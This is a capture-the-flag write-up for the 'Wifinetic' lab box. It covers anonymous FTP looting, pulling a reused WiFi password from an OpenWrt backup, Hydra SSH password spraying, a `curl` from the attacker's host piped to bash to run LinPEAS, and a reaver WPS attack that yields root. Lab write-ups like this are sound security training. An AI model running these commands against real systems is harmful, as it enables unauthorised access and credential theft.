 ## Box: Wifinetic

## Target IP: `10.10.11.247`

---

### Initial Nmap Scan

Ran:

```bash
sudo nmap -sC -sV -p- --min-rate 10000 10.10.11.247
```

Results:

| Port | Service | Version |
| --- | --- | --- |
| 21 | ftp | vsftpd 3.0.3 (anonymous login allowed) |
| 22 | ssh | OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 |
| 53 | tcpwrapped | - |

---

### FTP Enumeration

Logged in anonymously:

```bash
ftp 10.10.11.247
```

Downloaded everything:

```bash
wget -r ftp://10.10.11.247
```

Found:

- `MigrateOpenWrt.txt`
- `ProjectGreatMigration.pdf`
- `ProjectOpenWRT.pdf`
- `backup-OpenWrt-2023-07-26.tar`
- `employees_wellness.pdf`

---

### File Analysis

Checked `MigrateOpenWrt.txt`. Mostly noise. Some mentions of wireless configs.

Ran `exiftool` on PDFs. No credential leaks.

Read PDFs manually. Pulled a username:

`SamanthaWood93`.

Started building a `users.txt` list. Added `SamanthaWood93`.

Extracted the tar archive:

```bash
mkdir backup
cd backup
tar xvf ../ftp/backup-OpenWrt-2023-07-26.tar
```

Found `/etc/` dump. In `passwd`:

- `netadmin` user.

Added `netadmin` to `users.txt`.

Saw `/etc/config/wireless`:

- WiFi PSK: `[REDACTED]`

Looked like a reused password.

---

### Gaining Access

Used Hydra to spray SSH login:

```bash
hydra -L users.txt -p [REDACTED] 10.10.11.247 ssh

```

Login successful for `netadmin`.

Manual SSH in:

```bash
ssh netadmin@10.10.11.247
```

Password: `[REDACTED]`.

In.

---

### Initial Enumeration

Checked network interfaces:

```bash
ip a
```

Found:

- eth0 (standard)
- wlan0, wlan1, wlan2 (wireless NICs)
- mon0 (monitor mode interface)

Looked like a VM with simulated WiFi.

---

### Privilege Escalation

Set up a Python web server:

```bash
mkdir www
cd www
cp /opt/linpeas/linpeas.sh .
python3 -m http.server 8000
```

On victim:

```bash
curl 10.10.14.15:8000/linpeas.sh | bash
```

LinPEAS scan showed:

- `/usr/bin/reaver` with `cap_net_raw+ep`.

Setuid capabilities on `reaver`.

---

### Exploiting WiFi

Scanned networks:

```bash
iwlist scan
```

Found:

- ESSID: OpenWrt
- BSSID: 02:00:00:00:00:00

Attacked WPS:

```bash
reaver -i mon0 -b 02:00:00:00:00:00
```

Cracked WPS PIN.

Recovered WPA PSK:

```
[REDACTED]!
```

---

### Root Access

Tried SSH as root:

```bash
ssh root@10.10.11.247
```

Password: `[REDACTED]!`

Logged in immediately.

---

### Flags

User flag:

```bash
cd /home/netadmin
cat user.txt
```

Root flag:

```bash
cd /root
cat root.txt
```
